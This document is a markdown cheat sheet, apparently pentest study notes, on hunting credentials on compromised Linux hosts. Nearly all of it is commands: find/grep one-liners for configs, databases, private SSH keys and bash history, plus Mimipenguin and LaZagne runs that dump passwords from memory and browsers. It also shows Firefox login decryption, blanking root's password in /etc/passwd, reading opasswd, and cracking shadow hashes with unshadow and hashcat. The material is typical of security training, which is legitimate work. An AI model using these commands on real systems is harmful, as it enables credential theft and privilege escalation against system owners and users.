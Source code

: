 ## delete


# Credential Hunting in Linux
Files 	History 	Memory 	Key-Rings
Configs 	Logs 	Cache 	Browser stored credentials
Databases 	Command-line History 	In-memory Processing 	
Notes 			
Scripts 			
Source codes 			
Cronjobs 			
SSH Keys 	


## Files
Configuration files 	Databases 	Notes
Scripts 	Cronjobs 	SSH keys


### Configuration Files
```bash
$ for l in $(echo ".conf .config .cfg .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#### Credentials in Configuration Files
```bash
$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

We can apply this simple search to the other file extensions as well. Additionally, we can apply this search type to databases stored in files with different file extensions, and we can then read those.

### Databases
```bash
$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Notes
```bash
$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts
```bash
$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### Cronjobs
```bash
$ cat /etc/crontab
$ ls -la /etc/cron.*/
```

### SSH Keys
### SSH Private Keys
```bash
$ grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

### SSH Public Keys
```bash
$ grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"`
```

### History
#### Bash History
```bash
$ tail -n5 /home/*/.bash*
```

### Logs
Application Logs 	Event Logs 	Service Logs 	System Logs

Log File                | Description
----------------------- | ------------------------------------------------
/var/log/messages       | Generic system activity logs.
/var/log/syslog         | Generic system activity logs.
/var/log/auth.log       | (Debian) All authentication related logs.
/var/log/secure         | (RedHat/CentOS) All authentication related logs.
/var/log/boot.log      | Booting information.
/var/log/dmesg          | Hardware and drivers related information and logs.
/var/log/kern.log       | Kernel related warnings, errors and logs.
/var/log/faillog        | Failed login attempts.
/var/log/cron           | Information related to cron jobs.
/var/log/mail.log       | All mail server related logs.
/var/log/httpd          | All Apache related logs.
/var/log/mysqld.log     | All MySQL server related logs.


```bash
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory and Cache
### Memory - (Mimipenguin)[https://github.com/huntergregal/mimipenguin]
this tool requires administrator/root permissions.
```bash
$ sudo python3 mimipenguin.py`
$ sudo bash mimipenguin.sh`
```

### Memory - (LaZagne)[https://github.com/AlessandroZ/LaZagne]
```bash
$ sudo python2.7 laZagne.py all`
```

## Browsers
### Firefox Stored Credentials
```bash
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

### (Decrypting Firefox Credentials)[https://github.com/unode/firefox_decrypt]
```bash
$ python3.9 firefox_decrypt.py`
```

### Browsers - LaZagne
```bash
$ python3 laZagne.py browsers`
```

# Passwd, Shadow & Opasswd
## Passwd File
Usually, we find the value x in this field, which means that the passwords are stored in an encrypted form in the /etc/shadow file. However, it can also be that the /etc/passwd file is writeable by mistake. This would allow us to clear this field for the user root so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as root.

### Editing /etc/passwd - Before
root:x:0:0:root:/root:/bin/bash

### Editing /etc/passwd - After
root::0:0:root:/root:/bin/bash

Even though the cases shown will rarely occur, we should still pay attention and watch for security gaps because there are applications that require us to set specific permissions for entire folders. If the administrator has little experience with Linux or the applications and their dependencies, the administrator may give write permissions to the /etc directory and forget to correct them.

## Opasswd
The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.

```
$ sudo cat /etc/security/opasswd
```

Looking at the contents of this file, we can see that it contains several entries for the user cry0l1t3, separated by a comma (,). Another critical point to pay attention to is the hashing type that has been used. This is because the MD5 ($1$) algorithm is much easier to crack than SHA-512. This is especially important for identifying old passwords and maybe even their pattern because they are often used across several services or applications. We increase the probability of guessing the correct password many times over based on its pattern.

## Cracking Linux Credentials
### Unshadow
```
$ sudo cp /etc/passwd /tmp/passwd.bak 
$ sudo cp /etc/shadow /tmp/shadow.bak 
$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

### Hashcat - Cracking Unshadowed Hashes
```
$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Hashcat - Cracking MD5 Hashes
```
$ hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```